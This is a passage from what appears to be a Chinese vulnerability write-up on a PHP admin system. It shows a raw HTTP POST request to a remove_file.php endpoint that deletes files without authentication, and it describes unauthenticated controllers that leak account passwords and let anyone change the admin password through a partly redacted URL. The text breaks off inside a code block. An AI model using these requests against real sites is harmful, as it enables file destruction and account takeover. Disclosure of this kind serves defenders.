 }
?>
```  
  
**Payload:**  
```
POST /static/admin/upload_file/php/remove_file.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
Cookie: BJYSESSION=oorquahq7r9csc3can1hpcjkj3; PHPSESSID=6kqil2pldpq19cq7dt590uc54h; KOD_SESSION_SSO=ni6912a1a0d53k4rb6r6hgrhof; KOD_SESSION_ID_1bcdf=d358i7lc74rt2mrush7aao808h
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/static/admin/upload_file/php/remove_file.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

file=aaa.txt
```  
## 0x03 前台未授权操纵+信息泄露漏洞  
  
**在 /application/admin/controller/xxxx.php 控制器中的xxxx方法直接GET获取page，然后查询数据表并直接将账号密码列出，并且未加鉴权函数.**  
  
**Payload:**  
```
请见文末
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9Iibg5z2Y0wwqqVIB5srCavFratAHicRR378pg4lMMbvfOv6TWjARuxxP7A/640?wx_fmt=png&from=appmsg "")  
  
**在 **** 方法中，可随意操纵任意账户，更改密码等操作**  
  
**直接访问 /index.php/admin/****/1 即可直接越权更改管理员密码**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9Iib86U0RMVo02EWbcu4Vbt6hfViaxjrrsDKmU9iaibCtPg11VQwgOEtxibStg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9IibPcxVdbujoCdpIrdrXYT3AedwXhibYWxfJGicF9rGRCg2a4HlOYtMCibpg/640?wx_fmt=other&from=appmsg "")  
  
**控制器不加任何鉴权，随便操纵用户，这套程序真抽象......**  
  
**在 upload_add 方法中，还有个文件上传，但是无回显，上传文件以微秒的md5来命名，所以实际利用价值比较低，这里就不多赘述了 .**  
```
public function upload_add(){
